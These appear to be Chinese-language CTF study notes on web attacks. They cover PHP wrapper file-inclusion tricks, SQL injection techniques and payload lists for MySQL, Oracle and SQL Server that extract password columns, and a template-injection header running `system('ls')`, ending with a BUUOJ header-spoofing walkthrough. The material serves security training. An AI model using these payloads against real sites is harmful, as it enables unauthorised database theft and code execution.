


# web

关于Web的敏感文件有：
1. robots.txt文件是一种叫做robots的协议。其文件常在网站根目录下。告诉网络爬虫，哪些文件或者文件夹可以被网络爬虫获取。哪些文件不可以被网络爬虫获取。
2. readme.md是一种以MarkeDown格式书写的文件。通常记录一些CMS版本的信息。部分提供其CMS的GitHub地址。
3. www.zip/rar/tar.gz 是一种压缩包格式的文件。
4. index.php或者index.php~


## Web渗透信息收集

系统漏洞-->中间件漏洞-->web漏洞

信息收集分为主动收集和被动收集。主动收集是与目标主机进行直接交互，从而获取所需的目标信息。被动信息收集是不与目标主机进行直接交互，通过搜索引擎等方式间接的获取目标主机的信息。


## PHP伪协议

具体题目：[[极客大挑战 2019]Secret File 1](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Secret%20File)

经验一：看到flag.php应该联想到php伪协议，读取文件源码：
```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

### file://协议

1. file://[文件的绝对路径和文件名]
```
http://127.0.0.1/include.php?file=file://E:\phpStudy\PHPTutorial\WWW\phpinfo.txt
```


2. 文件相对路径和文件名

```
http://127.0.0.1/include.php?file=./phpinfo.txt
```


3. http：//网络路径和文件名

```
http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt
```

### php://协议

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。


- php://filter参数详解

|php://filter参数|描述|
|--|--|
|resource=<要过滤的数据流>|必须项。它指定了你要筛选过滤的数据流。|
|read=<读链的过滤器>|可选项。可以设定一个或多个过滤器名称，以管道符（\*\	\*）分隔。|
|write=<写链的过滤器>|可选项。可以设定一个或多个过滤器名称，以管道符（\	）分隔。|
|<; 两个链的过滤器>|任何没有以 read= 或 write= 作前缀的筛选器列表会视情况应用于读或写链。|

- 可用过滤器列表


示例：
1. php://filter/read=convert.base64-encode/resource=[文件名]读取文件源码（针对php文件需要base64编码）

```
http://127.0.0.1/include.php?file=php://filter/read=convert.base64-encode/resource=phpinfo.php
```


2. php://input + [POST DATA]执行php代码




### zip:// & bzip2:// & zlib:// 协议

zip:// & bzip2:// & zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg png gif xxx 等等。

1. zip://[压缩文件绝对路径]%23[压缩文件内的子文件名]（#编码为%23）
压缩 phpinfo.txt 为 phpinfo.zip ，压缩包重命名为 phpinfo.jpg ，并上传。
```
http://127.0.0.1/include.php?file=zip://E:\phpStudy\PHPTutorial\WWW\phpinfo.jpg%23phpinfo.txt
```


2. compress.bzip2://file.bz2
压缩 phpinfo.txt 为 phpinfo.bz2 并上传（同样支持任意后缀名）
```
http://127.0.0.1/include.php?file=compress.bzip2://E:\phpStudy\PHPTutorial\WWW\phpinfo.bz2
```


3. compress.zlib://file.gz
压缩 phpinfo.txt 为 phpinfo.gz 并上传（同样支持任意后缀名）

```
http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz
```


### data:// 协议

1. data://text/plain,
```
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
```


2. data://text/plain;base64,
```
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```


3. http:// & https:// 协议
```
http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt
```


### phar:// 协议

```
http://127.0.0.1/include.php?file=phar://E:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```


参考：[PHP伪协议总结](https://segmentfault.com/a/1190000018991087)

## Sql注入

SQL一般是指结构化查询语言，是一种特殊的编程语言，是一种数据库查询和程序设计语言，用于存取数据以及查询、更新和管理关系数据库系统。SQL注入就是当开发人员对用户输入数据的合法性没有判断或者过滤不严时，攻击者通过拼接恶意SQL语句使解释器在未经适当授权的情况下执行意外命令或访问数据。SQL注入的原理就是攻击者通过拼接恶意SQL语句，将其带入数据库进行查询，从而得到数据库一些敏感信息。

SQL注入的条件有三个：
- 变量可控
- 变量未存在过滤
- 构造的SQL语句可代入数据库中查询

SQL注入的一般步骤：
- 注入点判断
- 注入点类型判断（有无回显）。有回显就是当我们输入恶意SQL语句时，页面会给我们一个反馈的信息，例如我们语句输入错误，后台就会把错误信息返回显示在网页上，而无回显就恰恰相反，当我们无论输入的SQL是正确或者错误，页面都不会发生改变。
- 信息猜解


1. 注入点种类解析

  1.1 按注入点参数的类型分类

（1） 数字型注入

当输入的参数x为整型的时候，通常sql语句是这样的：`select * from users where id =x`，例如id=1这种类型，向数据库传入的是数字，参数不需要被引号括起来。数字型注入判断方法一般较为简单，当我们在注入点参数后构造语句`and 1=1`页面显示正常，`and 1=2`页面显示错误的时候，那么这个页面就有可能存在数字型注入点。`and`是与的逻辑，即两个条件为真时，页面才会返回正常，所以当输入`and 1=1`时，后台会执行sql语句是`select * from users where id =x and 1=1`；没有语法显示错误且逻辑判断为真，返回正常当输入`and 1=2`时，后台会执行sql语句是`select * from users where id =1 and 1=2`；没有语法错误且逻辑判断为假，返回错误。

（2）字符型注入

当输入的参数x为整型的时候，通常sql语句是这样的`select * from users where id ='x'`，例如`name=admin`这种类型，像数据库传入的是字符串，参数需要被引号括起来。字符型注入判断跟数字型注入逻辑差不多，只不过是在语句上需要添加一些符号，如单引号，双引号，括号等当输入`'and' 1'='1` 时，后台会执行sql语句是`select * from users where id ='x' and '1'='1'`；没有语法显示错误且逻辑判断为真，返回正常当输入`'and '1'='2`时，后台会执行sql语句是`select * from users where id ='1' and '1'='2'`;没有语法错误且逻辑判断为假，返回错误。而字符型常见干扰符号有：双引号”，单引号',括号),综括号}等，具体是什么符号干扰实际案例中还需各位进行尝试。

  1.2 按照数据请求方式分类

（1）GET注入

HTTP请求方式为get，注入点一般在get传入的参数部分，例如？id=1，id便是一个注入点。

（2）POST注入

HTTP请求方式为post，注入点一般为提交的HTML表单， 即post传入的数据内容。

（3）Request注入

get，post，reques注入的判断方法其实就是通过在请求方法中提交不同SQL判断语句，看页面是否与原来一样，一样则不存在注入点，不一样则存在注入点，但是有一点值得注意，GET提交的数据会优先输出， Request请求方法可以包含get,post任意语句。

（4） HTTP头注入

HTTP的请求头存在注入点，例如XFF头，cookie，Host这些都是常见的注入点。注入点判断方法：通过修改http数据包数据（构造恶意SQL语句）进行提交，页面是否显示我们提交的数据，显示则存在，反之不存在。

（5） Cookie注入

cookie注入其实跟上面3个差不多，通过在cookie中输入恶意SQL语句带入数据库查询，即可实现cookie注入。

2. 联合查询注入（union）

联合查询注入一般配合 order by 函数进行信息猜解，当我们发现网站的注入点时且网站有错误回显的时候，那我们就可以使用 union 进行注入。其大致步骤为：

- 注入点判断

- order by列名猜解

ORDER BY 语句用于根据指定的列对结果集进行排序，当排序的那列数字超过了原有的列数就会报错，借助这个函数原理我们就可猜出数据库有多少列名。`order by x`  //x为界面正确和错误的临界值，如当我们输入SQL语句`order by 3` 页面显示正常，`order by 4 `页面显示错误，那么x就为3，即数据库有3列。

- union查询

当用`order by` 函数猜解出数据库列名后，我们就可以使用union函数进行注入了,SQL语法为`union select 1,2,3,4,....n  --+ `。因为我们通过`order by`猜解出有X列，那我们就可以通过select查询X列，通过页面报错回显位，再进行payload构造。我们还是接着以上靶场为例，因为我们知道了该数据库有3列数据，那我们就可以构造SQL语句` 'union select 1,2,3--+`。


- 报错显示位信息查询

`union select 1,payload,3,...n --+`：通过构造payload得到数据库显示位，那么就可以获取我们想要的信息了，上面我们得到了显示位为2，3那我们只要在select 后面的2，3位置构造payload即可，例如我们想要获取数据库版本信息和数据库名那我们可以通过SQL语句 `'union select 1,version(),database()--+`进行注入查询。


一些常见的数据信息收集如：
```
数据库版本：version()  
数据库名字:database()  
数据库用户:user()  
操作系统:@@version_compile_os

information_schema.schemata //所有数据库库名
information_schema.tables  //数据库下面的所有表名
information_schema.columns //数据库某数据表下面的列名
schema_name      //数据库名
table_name       //表名
column_name     //列名
```

3. 盲注

3.1 报错盲注

报错型注入：通过特殊函数错误使用并使其输出错误结果来获取信息。常见的三种报错盲注函数有：

- floor
- updatexml
- extractvalue

(1) updatexml

`updatexml()`是一个使用不同的xml标记匹配和替换xml块的函数。语法：`updatexml（XML_document，XPath_string，new_value）`。updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）。可通`id=x' or updatexml(1,concat(0x7e,(payload)),0) #`，`or`是或的意思一个成立就行，当然可以使用`and`没有什么影响，`comcat`是连接函数，将里面的字符串连接起来成为一个字符串。`payload`就是想要得到的信息，如果想得到用户名，那么`payload`就为`user()`;  `# `是过滤后面语句的。这个函数里面的关键就是`0x7e`，`0x7e`在ASCII码中 是：`~`；而通过`updatexml`可以知道当`xpath_string`格式出现错误，mysql则会爆出xpath语法错误，而`0x7e`并不属于`xpath`的语法格式，才可以通过这一特征得到报错想要的信息。

（2）extractvalue

此函数从目标XML中返回包含所查询值的字符串 语法：`extractvalue(XML_document，xpath_string)`。SQL语句：`x' or extractvalue(1,concat(0x7e,payload))#`。`extractvalue`函数的使用跟`updatexml`一样，都是当`xpath_string`格式出现错误，mysql则会爆出xpath语法错误。`0x7e`就是`~`不属于xpath语法格式，因此报出xpath语法错误。同时`~`可以换成`#`、`$`等不满足xpath格式的字符，都可以进行报错注入的。

（3）floor

`floor`报错注入其实就是`count(*)`，`floor`，`group by`三个函数一起使用产生逻辑错误，这种报错方法的本质是因为`floor(rand(0)*2)`的重复性，导致`group by`语句出错。经典floor报错函数语句`and select 1 from (select count(*),concat(payload,floor(rand(0)*2))x from information_schema.tables group by x)a)`。这里在`floor()`函数后面的x起到了一个起别名的作用，换句话说，x就等价于`floor(rand()*2)`，`count()`函数会生成一个虚拟表，这条SQL语句来说，虚拟表中会有两个字段，一个是字段是`count()`的结果，一个是字段存放x ，最后的`a`就是sql语句在查询结果的基础上再执行查询时，必须给定一个别名。

3.2 布尔盲注

布尔盲注其实就是基于逻辑判断进行数据猜解的，在页面中，如果正确执行了SQL语句，则返回一种页面，如果SQL语句执行错误，则执行另一种页面，基于两种页面，来判断SQL语句正确与否，从而逐步猜解信息。像一般用到的函数`left`,`length`,`substr`,`mid`等。


3.3 延时盲注

延时盲注是另一种常见的SQL注入，当不同参数相应的页面都一样，或返回的信息都一致时使用延时盲注更加合适，但这种注入方式的效率很低，延时注入主要是通过页面增加响应的时间来判断延时注入是否成功。常见的延时盲注函数有`sleep`,`if`等。

### 0x01 Mysql 手工注入

#### 联合注入

```
?id=1' order by 4--+
?id=0' union select 1,2,3,database()--+
?id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=database() --+
?id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name="users" --+
#group_concat(column_name) 可替换为 unhex(Hex(cast(column_name+as+char)))column_name

?id=0' union select 1,2,3,group_concat(password) from users --+
#group_concat 可替换为 concat_ws(',',id,users,password )

?id=0' union select 1,2,3,password from users limit 0,1--+
```

#### 报错注入

```
1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

5.multipoint()
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

6.polygon()
select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

7.multipolygon()
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

8.linestring()
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

9.multilinestring()
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

10.exp()
select * from test where id=1 and exp(~(select * from(select user())a));
```

每个一个报错语句都有它的原理：

exp() 报错的原理：exp 是一个数学函数，取e的x次方，当我们输入的值大于709就会报错，然后 ~ 取反它的值总会大于709，所以报错。

updatexml() 报错的原理：由于 updatexml 的第二个参数需要 Xpath 格式的字符串，以 ~ 开头的内容不是 xml 格式的语法，concat() 函数为字符串连接函数显然不符合规则，但是会将括号内的执行结果以错误的形式报出，这样就可以实现报错注入了。

```
爆库：?id=1' and updatexml(1,(select concat(0x7e,(schema_name),0x7e) from information_schema.schemata limit 2,1),1) -- +
爆表：?id=1' and updatexml(1,(select concat(0x7e,(table_name),0x7e) from information_schema.tables where table_schema='security' limit 3,1),1) -- +
爆字段：?id=1' and updatexml(1,(select concat(0x7e,(column_name),0x7e) from information_schema.columns where table_name=0x7573657273 limit 2,1),1) -- +
爆数据：?id=1' and updatexml(1,(select concat(0x7e,password,0x7e) from users limit 1,1),1) -- +

#concat 也可以放在外面 updatexml(1,concat(0x7e,(select password from users limit 1,1),0x7e),1)
```

这里需要注意的是它加了连接字符，导致数据中的 md5 只能爆出 31 位，这里可以用分割函数分割出来：

```
substr(string string,num start,num length);
#string为字符串,start为起始位置,length为长度

?id=1' and updatexml(1,concat(0x7e, substr((select password from users limit 1,1),1,16),0x7e),1) -- +
```

#### 盲注

1. 时间盲注

时间盲注也叫延时注入 一般用到函数 sleep() BENCHMARK() 还可以使用笛卡尔积(尽量不要使用,内容太多会很慢很慢)

一般时间盲注我们还需要使用条件判断函数

```
#if（expre1，expre2，expre3）
当 expre1 为 true 时，返回 expre2，false 时，返回 expre3

#盲注的同时也配合着 mysql 提供的分割函
substr、substring、left
```

我们一般喜欢把分割的函数编码一下，当然不编码也行，编码的好处就是可以不用引号，常用到的就有 ascii() hex() 等等

```
?id=1' and if(ascii(substr(database(),1,1))>115,1,sleep(5))--+
?id=1' and if((substr((select user()),1,1)='r'),sleep(5),1)--+
```

2. 布尔盲注

```
?id=1' and substr((select user()),1,1)='r' -- +
?id=1' and IFNULL((substr((select user()),1,1)='r'),0) -- +
#如果 IFNULL 第一个参数的表达式为 NULL，则返回第二个参数的备用值，不为 Null 则输出值

?id=1' and strcmp((substr((select user()),1,1)='r'),1) -- +
#若所有的字符串均相同，STRCMP() 返回 0，若根据当前分类次序，第一个参数小于第二个，则返回 -1 ，其它情况返回 1
```

#### insert,delete,update

insert,delete,update 主要是用到盲注和报错注入，此类注入点不建议使用 sqlmap 等工具，会造成大量垃圾数据，一般这种注入会出现在 注册、ip头、留言板等等需要写入数据的地方,同时这种注入不报错一般较难发现，我们可以尝试性插入、引号、双引号、转义符 \ 让语句不能正常执行，然后如果插入失败，更新失败，然后深入测试确定是否存在注入

#### 二次注入与宽字节注入

二次注入的语句：在没有被单引号包裹的sql语句下，我们可以用16进制编码他，这样就不会带有单引号等。

二次注入在没有源码的情况比较难发现，通常见于注册，登录恶意账户后，数据库可能会因为恶意账户名的问题，将 admin'--+ 误认为 admin 账户

宽字节注入：针对目标做了一定的防护，单引号转变为 `\'`, mysql 会将 `\`编码为 `%5c`，宽字节中两个字节代表一个汉字，所以把 `%df`加上 `%5c`就变成了一个汉字“運”，使用这种方法成功绕过转义，就是所谓的宽字节注入。

## Oracle 手工注入

### 联合注入

```
?id=-1' union select user,null from dual--
?id=-1' union select version,null from v$instance--
?id=-1' union select table_name,null from (select * from (select rownum as limit,table_name from user_tables) where limit=3)--
?id=-1' union select column_name,null from (select * from (select rownum as limit,column_name from user_tab_columns where table_name ='USERS') where limit=2)--
?id=-1' union select username,passwd from users--
?id=-1' union select username,passwd from (select * from (select username,passwd,rownum as limit from users) where limit=3)--
```

### 报错注入

```
?id=1' and 1=ctxsys.drithsx.sn(1,(select user from dual))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select banner from v$version where banner like 'Oracle%))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select table_name from (select rownum as limit,table_name from user_tables) where limit= 3))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select column_name from (select rownum as limit,column_name from user_tab_columns where table_name ='USERS') where limit=3))--
?id=1' and 1=ctxsys.drithsx.sn(1,(select passwd from (select passwd,rownum as limit from users) where limit=1))--
```

## SQL server 手工注入

### 联合注入

```
?id=-1' union select null,null--
?id=-1' union select @@servername, @@version--
?id=-1' union select db_name(),suser_sname()--
?id=-1' union select (select top 1 name from sys.databases where name not in (select top 6 name from sys.databases)),null--
?id=-1' union select (select top 1 name from sys.databases where name not in (select top 7 name from sys.databasesl),null--
?id--1' union select (select top 1 table_ name from information_schema.tables where table_name not in (select top 0 table_name from information_schema.tables)),null--
?id=-1' union select (select top 1 column name from information_schema.columns where table_name='users' and column_name not in (select top 1 column_name from information_schema.columns where table_name = 'users')),null---
?id=-1' union select (select top 1 username from users where username not in (select top 3 username from users)),null--
```

### 报错注入

```
?id=1' and 1=(select 1/@@servername)--
?id=1' and 1=(select 1/(select top 1 name from sys.databases where name not in (select top 1 name from sys.databases))--
```

## XFF注入

X-Forwarded-For：简称XFF头，代表了HTTP的请求端真实的IP。它被认为是客户端通过HTTP代理或者负载均衡器连接到web服务端获取源ip地址的一个标准（通常一些网站的防注入功能会记录请求端真实IP地址并写入数据库或某文件[通过修改XXF头可以实现伪造IP]）。如果看到有提示关于IP，第一时间考虑是不是XFF注入。XFF注入原理是通过修改X-Forwarded-for头对带入系统的dns进行sql注入，达到欺骗服务器执行恶意的SQL命令的效果，从而可以得到网站的数据库内容。

输入什么显示什么可以确定是SSTI（模板注入）

关于SSTI可以参考：https://xz.aliyun.com/t/7746

同时记住该命令：`X-Forwarded-for：{{system('ls')}}`举一反三。

### 确定注入


## 总结

### [极客大挑战 2019]Http

参考链接：https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Http


解题步骤：

1. 访问网站，没有任何的输入框，那就F12看看源代码。其实任何web题目第一时间都需要看看源码进行分析。


发现红框的猫腻，有个`secret.php`的文件。


2. 访问`http://node4.buuoj.cn:25339/Secret.php`,提示`It doesn't come from 'https://Sycsecret.buuoj.cn'`。


那么我们就需要去欺骗他是来自`https://Sycsecret.buuoj.cn`。这个时候就需要用到BurpSuite工具了。
原始的请求文件在工具上的信息如下截图：


那么加请求中添加`Referer:https://Sycsecret.buuoj.cn`即可欺骗：


3. 添加后出现以下提示：`Please use "Syclover" browser`


解决这个比较简单，只需要将`User-Agent`赋值为这个浏览器就行，注意大小写。

4. 修改完访问后提示：`No!!! you can only read this locally!!!`:


提示locally就会联想`127.0.0.1`，那么怎么`read this locally`呢？就是将`X-Forwarded-For:127.0.0.1`添加到头文件里面。

5. 最后的结果：


获取Flag：


这道题主要考查的是HTTP头字段代表的意思和用法，挺有代表性的。